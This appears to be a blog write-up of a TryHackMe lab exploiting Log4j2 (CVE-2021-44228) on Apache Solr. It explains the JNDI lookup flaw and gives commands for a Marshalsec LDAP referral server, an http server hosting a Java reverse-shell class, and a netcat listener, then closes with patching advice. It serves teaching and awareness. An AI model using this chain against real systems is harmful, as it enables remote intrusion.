 ```yaml
---
layout: post
author: Istvan Kis
title: Log4j2 RCE and exploitation example (CVE-2021-44228)
image: log4j-1.jpg
keywords: log4j vulnerability, log4j exploit, CVE-2021-44228, hacker, reverse shell, remote code exection, tryhackme
---
```

{% include image.html src="/images/log4j-1.jpg" alt="Fox is looking really smart with glasses" %}

## What is CVE-2021-44228?

In the first half of December, 2021, ransomware attackers received the perfect Santa gift: an easily exploitable Log4j2 vulnerability. Log4j is a widely used, Java-based logging utility published by Apache initially in 2001. Since then it received many updates, and a major release to version 2. As of today, the latest patched version is 2.16.0 (December 13).

Today we use this flaw and open shell to our target machine.

<!--more-->

## About the vulnerability

However you may think that a logging tool only processes standard text files with proper input sanitising, well, not every time. Log4j allows us to do some extra [lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html) there, using templates. An example from Log4j website:

{% include image.html src="/images/log4j-2.png" alt="Log4j lookup example" %}

The vulnerability is based on the allowance of reaching JNDI (it is a directory service via a Java API, more info [here](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)) API through the mentioned lookup mechanism, and there is no restriction for using completely custom prefix in this parameter string. It means that if we use a `jndi:ldap://` with an attacker host's prepared LDAP server, dirty stuff can come (**remote code execution**). For the record we need to mention, that DNS or RMI protocols can work as well.

{% include image.html src="/images/log4j-3.jpg" alt="Log4j attacking architecture" %}

(Credit for the detailed explanation picture above: [Fastly](https://www.fastly.com).)

## Why is it so dangerous?

For multiple reasons: for first, it is very easily exploitable, any script kiddie can take advantage of that. Secondly, there are many affected services because of transitive dependencies. Tons of enterprise softwares use this logging mechanism as external lib. Third part is related to the second one, patching Log4j itself is not enough, you need to check and understand if your enterprise, “black-box” software components use this library or not, and if so, plan and carry out proper the risk mitigation.

## Exploitation example

We used [Tryhackme](https://tryhackme.com) box to test the exploits. These guys are committed to teach the people of the internet about awareness, security, penetration testing and many more, therefore I can frankly recommend you to give them a try.

### Starting situation

So we have a vulnerable computer, which we are **allowed** to hack. There is a limited VPN between this computer (10.10.17.246) and our own attacker machine (10.9.125.225) with Kali linux ran in Virtualbox.

### Recon & discovery

Let’s check if there are any services available with port scanning. Used an aggressive scanning (**-A**) because of the playing machine (no reason to be silent), and dedicated port range for seeing only the relevant port for us. (You should check all ports usually with flag **-p-**).

{% include image.html src="/images/log4j-4.png" alt="Port scanning on target host" %}

We see that Apache Solr is running on port 8983, let’s see it in the browser.

{% include image.html src="/images/log4j-5.png" alt="Solr web interface" %}

We see Log4j2 logging scheme, and it’s [vulnerable](https://solr.apache.org/security.html), as it turns out after a short google-fu. The box itself cheats a bit here, because we can see logs from this host, which would be not available in a real situation. (In those circumstances, instead of watching the logs, we could use directory busting or other attack vectors for finding a vulnerable endpoint.)

{% include image.html src="/images/log4j-6.png" alt="Log analysis of Solr" %}

We think that the template is parameterizable (`params={}`), and also see the `/admin/cores` endpoint. Here we are.

{% include image.html src="/images/log4j-7.png" alt="Solr vulnerable endpoint" %}

We learned from the vulnerability description that through lookups we can reach external ldap or dns servers. It is over TCP, let’s check what happens if we try to catch that connection with *netcat*.

{% include image.html src="/images/log4j-8.png" alt="LDAP request catch with netcat" %}

Connection is established, but because of LDAP request structure, the output is not readable by humans. However this is a good sign.

### Exploitation

PoC was successful, now we need a process with a toolset, which can handle LDAP requests, and push an exploit to our Java-based application in an “understandable” format. Obviously it means some kind of Java class(es) / POJO.

The plan is to have an **LDAP relay** or referral server, have a simple **http server**, which can accept this connection and serve the **Java class**, which will open a **reverse shell** to our attacker computer.

For LDAP relay we use [Marshalsec](https://github.com/mbechler/marshalsec) with Maven. I won't go in details about the installation, it's pretty straightforward and well-documented in Github. 

`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.125.225:8000/#Revshell”`

As a http server you can use anything handy, we prefer python3 http.server. 

`python3 -m http.server`

So LDAP will use Revshell.class on python webserver, but there is nothing yet. That is the last preparation step.

{% include image.html src="/images/log4j-9.png" alt="Reverse shell in Java - source" %}

Let’s compile it with `javac Revshell.java` and put the class into the python webserver directory. Do not forget, that the vulnerability has Java related requirements (pref. Java 7-8 for the build). We used OpenJDK 1.8.0_181.

As last step, run the listener, which will accept the reverse connection. 

`nc -nltvp 1234`

Here is our setup as a whole:

{% include image.html src="/images/log4j-10.png" alt="Schematic draw of the attack" %}

A short video about getting everyhing ready.

<iframe width="700" height="394" src="https://www.youtube.com/embed/xfLU5gJP0c8" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

This easy it is to break into systems and receive remote shell via the new Log4j2 vulnerability. It is not a coincidence, that the CVE score of it is 9.7 out of 10, while the CVSS score is 10 out of 10. Absolutely critical.

## What can we do to save our infrastructure?

Patch, patch, patch. Log4j has released fix for the base components, but as we earlier mentioned, we need to cover custom softwares and transitive dependencies as well. Watch the list of vulnerable softwares, contact your vendors, use [WAF](https://en.wikipedia.org/wiki/Web_application_firewall) with proper string filtering, analyse activities, log files and traces. There are a couple online services (e.g. [Trendmicro](https://log4j-tester.trendmicro.com)), which provide remote checks of these threats. We do not recommend these, only if you can truly trust in them.
